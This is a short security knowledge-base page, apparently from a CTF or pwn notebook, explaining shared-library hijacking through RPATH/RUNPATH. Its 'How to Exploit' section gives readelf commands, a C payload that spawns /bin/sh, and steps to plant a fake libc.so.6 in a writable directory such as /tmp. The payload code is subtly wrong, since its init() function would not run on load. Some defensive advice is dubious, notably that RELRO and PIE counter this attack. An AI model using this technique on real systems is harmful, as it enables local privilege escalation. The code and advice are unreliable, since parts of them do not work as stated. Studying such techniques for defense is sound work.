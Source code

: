 ```yaml
---
title: Library Hijacking via RPATH/RUNPATH
parent: Protection Bypass
grand_parent: Pwn
great_grand_parent: Knowledge Base
nav_order: 5
---
```



# Library Hijacking via RPATH/RUNPATH

## What are RPATH and RUNPATH?

- Hardcoded search paths for shared libraries (dynamic linker uses them).
- Set during compilation with flags like:
\`\`\`
-Wl,-rpath,/some/dir
\`\`\`

---

## Why is it Dangerous?

- If an attacker can place a malicious library in a directory listed in RPATH or RUNPATH, it will be loaded **before** system libraries.
- Allows arbitrary code execution during program startup.

---

## How to Exploit?

1. **Find the RPATH or RUNPATH**:
   - Use \`readelf\`:
\`\`\`
readelf -d <binary> | grep RPATH
readelf -d <binary> | grep RUNPATH
\`\`\`

2. **Create a Malicious Library**:
   - Write your payload in C:
\`\`\`c
#include <stdio.h>
void init() {
    system("/bin/sh");
}
\`\`\`

- Compile:
\`\`\`
gcc -shared -fPIC -o libmylib.so mylib.c
\`\`\`

3. **Place Library in RPATH Directory**:
   - If RPATH includes \`/tmp\`, put \`libmylib.so\` there.

4. **Run the Binary**:
   - It will load your malicious library automatically.

---

## Example Attack

1. Binary has RPATH \`/tmp\`.
2. You create \`libc.so.6\` with a malicious \`init\` function.
3. When the binary runs, it uses your fake \`libc.so.6\`.

---

## Defense

- Avoid setting RPATH or RUNPATH.
- Use only secure and absolute paths.
- Use full RELRO, PIE, and enable hardened linking flags.

---

## Summary

- **RPATH**/**RUNPATH** vulnerabilities can lead to preloading attacker-controlled shared libraries.
- Easy route for remote/local code execution if writable directory is included.
- Always check for these fields with \`readelf\` during binary analysis.
